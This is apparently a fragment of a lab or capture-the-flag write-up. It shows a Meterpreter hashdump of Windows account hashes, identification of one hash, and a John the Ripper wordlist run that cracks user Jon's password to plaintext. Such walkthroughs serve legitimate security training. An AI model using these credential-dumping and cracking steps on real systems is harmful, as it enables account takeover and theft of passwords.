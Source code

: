 meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
---

hash-identifier
HASH: ffb43f0de35be4d9917ac0cc8ad57f8d

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
---

sudo john --format=NT --rules --wordlist=/usr/share/wordlists/rockyou.txt hashes
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 256/256 AVX2 8x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
                 (Administrator)
alqfna22         (Jon)
2g 0:00:00:04 DONE (2020.05.27 14:54. 0.4889g/s 2493Kp/s 2493Kc/s 2495KC/s alr19882006..alpusidi
Warning: passwords printed above might not be all those cracked
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed

